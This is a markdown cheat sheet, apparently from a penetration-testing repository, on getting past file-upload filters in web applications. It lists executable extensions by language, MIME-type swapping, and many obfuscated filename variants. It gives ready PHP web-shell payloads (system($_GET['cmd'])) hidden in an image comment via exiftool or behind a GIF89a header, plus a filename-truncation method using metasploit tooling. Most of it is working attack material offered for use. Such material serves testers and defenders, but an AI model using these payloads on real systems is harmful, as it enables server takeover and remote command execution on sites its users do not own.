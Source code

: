 ## Bypassing File Extension Restrictions  

### Alternate extensions
|Type|Extension|
|---|---|
|php|.phptm, phtml, .shtml, .htaccess, .phar, .php, .php2, .php3, .php4, .php5, .php6, .php7, phps, .pht, and .inc|
|asp|asp, .aspx, .config, .ashx, .asmx, .aspq, .axd, cshtm, .cshtml, .rem, .soap, .vhbtm, .vbhtml, .vbhtml, .asa, .cer, .shtml |
|perl|.pl, .pm, .cgi, .lib|
|jsp|.jsp, .jspx, .jsw, .jsv, .jspf, .wss, .do, .action|
|Coldfusion|.cfm, .cfml, .cfc, .dbm|
|flash|.swf|
|Erlang Yaws Web Server| .yaws|

### Mime Types
`Content-type: application/x-php`  
Replace with:  
`Content-type: image/jpeg`

### PHP getimagesize()
For file uploads which validate image size using php getimagesize(), it may be possible to execute shellcode by inserting it into the Comment attribute of Image properties and saving it as file.jpg.php.
```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
mv file.jpg file.php.jpg
```
### exiftool
Exiftool versions 7.44-12.23 are vulnerable to remote code execution. [CVE-2021-22204](https://github.com/se162xg/CVE-2021-22204).  There is also a metasploit module available.  [exploit-db](https://www.exploit-db.com/download/49881)

### GIF89a; header
GIF89a is a GIF file header. If uploaded content is being scanned, sometimes the check can be fooled by putting this header item at the top of shellcode:
```
GIF89a;
<?
system($_GET['cmd']); # shellcode goes here
?>
```
### File Extension Obfuscation

* Use camelcase 
     * .pHp
     * .pHpS
* Add valid extensions before the execution extension
     * file.jpg.php
* Add Special Characters to the end
     * file.php%20
     * file.php%0a
     * file.php%00
     * file.php%0d%0a
     * file.php/
     * file.php.\
     * file.
     * file.php....
     * file.pHp5....
* Double extensions or add junk
     * file.png.php
     * file.png.pHp5
     * file.php%00.png
     * file.php\x00.png
     * file.php%0a.png
     * file.php%0d%0a.png
     * file.phpJunk123png
 * Add another layer of extensions to the previous check:
     * file.png.jpg.php
     * file.php%00.png%00.jpg
 * place the exec extension before the valid extension
     * file.php.png
 * Use NTFS Alternate data streams (ADS)
     * file.asp::jpg
     * file.asp::$data
 * Use long filenames to overrun the filename limitation and truncate the valid extension
 ```
 # Linux maximum 255 bytes
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 255
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4 # minus 4 here and adding .png
# Upload the file and check response how many characters it alllows. Let's say 236
python -c 'print "A" * 232'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Make the payload
AAA<--SNIP 232 A-->AAA.php.png
```
